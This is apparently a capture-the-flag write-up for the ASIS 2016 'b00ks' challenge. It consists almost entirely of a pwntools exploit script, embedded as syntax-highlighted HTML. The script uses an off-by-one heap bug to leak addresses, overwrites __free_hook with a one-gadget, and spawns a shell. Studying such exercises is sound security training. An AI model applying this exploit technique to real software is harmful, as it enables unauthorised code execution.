 # ASIS_2016_books

off_by_one

<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div><div style="line-height:130%">32</div><div style="line-height:130%">33</div><div style="line-height:130%">34</div><div style="line-height:130%">35</div><div style="line-height:130%">36</div><div style="line-height:130%">37</div><div style="line-height:130%">38</div><div style="line-height:130%">39</div><div style="line-height:130%">40</div><div style="line-height:130%">41</div><div style="line-height:130%">42</div><div style="line-height:130%">43</div><div style="line-height:130%">44</div><div style="line-height:130%">45</div><div style="line-height:130%">46</div><div style="line-height:130%">47</div><div style="line-height:130%">48</div><div style="line-height:130%">49</div><div style="line-height:130%">50</div><div style="line-height:130%">51</div><div style="line-height:130%">52</div><div style="line-height:130%">53</div><div style="line-height:130%">54</div><div style="line-height:130%">55</div><div style="line-height:130%">56</div><div style="line-height:130%">57</div><div style="line-height:130%">58</div><div style="line-height:130%">59</div><div style="line-height:130%">60</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;create(name_size,content,des_size,content2):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'1'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(name_size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,content)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(des_size))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,content2)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;edit(ids,des):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'3'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(ids))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,des)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;delete(ids):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'2'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,<span style="color:#066de2">str</span>(ids))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;show():</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'4'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">def</span>&nbsp;change_name(name):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;'</span>,<span style="color:#63a35c">'5'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">':'</span>,name)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>process(<span style="color:#63a35c">'./b00ks'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./b00ks'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x,y&nbsp;:&nbsp;r.sendlineafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x&nbsp;:&nbsp;r.recvuntil(x)</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>&nbsp;lambda&nbsp;x,y&nbsp;:&nbsp;r.sendafter(x,y)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">':'</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x20</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">create(<span style="color:#0099cc">0x80</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x7f</span>,<span style="color:#0099cc">0x80</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x7f</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">create(<span style="color:#0099cc">0x80</span>,<span style="color:#63a35c">'B'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x7f</span>,<span style="color:#0099cc">0x80</span>,<span style="color:#63a35c">'B'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x7f</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">show()</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'Author:&nbsp;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">heap<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(ru(<span style="color:#63a35c">'\n'</span>).replace(<span style="color:#63a35c">'\n'</span>,<span style="color:#63a35c">''</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'\x00\x00'</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x140</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(heap))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">2</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x50</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">1</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(heap<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x170</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(heap<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0xb0</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x80</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">change_name(<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x20</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">show()</div><div style="padding:0 6px; white-space:pre; line-height:130%">ru(<span style="color:#63a35c">'Name:&nbsp;'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>u64(ru(<span style="color:#63a35c">'\x7f'</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#63a35c">'\x00\x00'</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">-</span><span style="color:#0099cc">0x3c4b78</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">oneshot<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x4526a</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">log.info(hex(libc_leak))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,<span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x50</span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">1</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(heap<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0099cc">0x170</span>)<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(libc_leak<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>libc.symbols[<span style="color:#63a35c">'__free_hook'</span>])<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span>p64(<span style="color:#0099cc">0x80</span>))</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">edit(<span style="color:#0099cc">1</span>,p64(oneshot))</div><div style="padding:0 6px; white-space:pre; line-height:130%">delete(<span style="color:#0099cc">1</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">r.interactive()</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#e5e5e5text-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>



